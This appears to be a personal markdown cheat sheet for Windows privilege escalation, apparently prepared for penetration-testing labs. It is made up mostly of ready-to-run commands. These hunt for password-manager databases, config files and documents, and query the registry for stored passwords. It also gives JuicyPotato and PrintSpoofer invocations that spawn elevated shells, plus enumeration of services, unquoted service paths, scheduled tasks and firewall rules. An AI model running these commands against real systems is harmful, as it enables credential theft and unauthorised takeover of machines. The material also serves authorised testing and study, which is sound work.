 - SEARCH FOR PASSWORD MANAGER DBs
	`Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`

- SEARCH FOR SENSITIVE XAMMP INFO:
	`Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`

- SEARCH HOME DIR
	`Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue`

`whoami /priv`
If you have SEImpersonate, USE JUICYPOTATO!!! NOW!!!
`jp.exe -t * -p c:\users\tony\desktop\1234shell.exe -l 1337 -c {e60687f7-01a1-40aa-86ac-db1cbf673334}`

IF THE WINDOWS BUILD IS TOO RECENT FOR THIS, TRY [PRINT SPOOFER](https://github.com/itm4n/PrintSpoofer)
`PrintSpoofer64.exe -i -c cmd.exe`

SEARCH FOR OPEN PORTS:
GOOD IF SOMETHING IS FIREWALLED OFF
`netstat -nao`

Search for Passwords:
`reg query HKLM /f pass /t REG_SZ /s`
PAY PARTICULAR ATTENTION TO THE ControlSet keys

WINPEAS

MANUAL PRIVESC ENUM!
`net user [username]` can provide a lot of info on different users permissions/group memberships

just running `net user` will show all users on the system.

At some point you may need to rely on kernel exploits, and knowing the machine's OS is useful here:
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`

Get a list of running processes:
`tasklist`

Get a list of running services:
`tasklist /SVC Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`
NOTE:  You cannot see higher priv processes in windows

Search for unquoted service paths:
`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`

Use `icacls` to check folder permissions for service exes.

show firewall profile:
`netsh advfirewall show currentprofile`
`netsh advfirewall firewall show rule name=all`

Check scheduled tasks:
`schtasks /query /fo LIST /v`

Enumerate Installed Programs:
`wmic product get name, version, vendor`
